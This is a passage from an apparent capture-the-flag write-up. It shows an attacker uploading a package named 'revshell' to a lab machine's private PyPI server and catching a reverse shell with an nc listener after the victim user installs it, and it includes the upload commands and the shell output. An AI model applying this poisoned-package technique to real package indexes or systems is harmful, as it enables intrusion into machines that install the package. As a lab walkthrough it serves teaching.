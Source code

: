 

Now I can run `setup.py` to upload to this server using the `upload`
command. In fact, it's required to create the package and upload it in
the same run. If I just try to `upload`, it complains:



    root@kali# python setup.py upload -r sneaky
    running upload
    error: Must create and upload files in one command (e.g. setup.py sdist upload)



But if I `sdist` and `upload`, it works:



    root@kali# python setup.py sdist upload -r sneaky
    running sdist
    running egg_info
    writing revshell.egg-info/PKG-INFO
    writing top-level names to revshell.egg-info/top_level.txt
    writing dependency_links to revshell.egg-info/dependency_links.txt
    reading manifest file 'revshell.egg-info/SOURCES.txt'
    writing manifest file 'revshell.egg-info/SOURCES.txt'
    running check
    creating revshell-0.0.1
    creating revshell-0.0.1/revshell.egg-info
    copying files to revshell-0.0.1...
    copying README.md -> revshell-0.0.1
    copying setup.cfg -> revshell-0.0.1
    copying setup.py -> revshell-0.0.1
    copying revshell.egg-info/PKG-INFO -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/SOURCES.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/dependency_links.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/not-zip-safe -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/top_level.txt -> revshell-0.0.1/revshell.egg-info
    Writing revshell-0.0.1/setup.cfg
    Creating tar archive
    removing 'revshell-0.0.1' (and everything under it)
    running upload
    Submitting dist/revshell-0.0.1.tar.gz to http://pypi.sneakycorp.htb:8080
    Server response (200): OK



If I hurry and load `http://pypi.sneakycorp.htb:8080/simple`, the
package is listed:

![](/img/image-20200713071533459.png)

It disappears very quickly (it seems low is quick to react and clean
up). But a few seconds later, `nc` receives a connection with a shell as
low:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:56400.
    $ id
    uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)
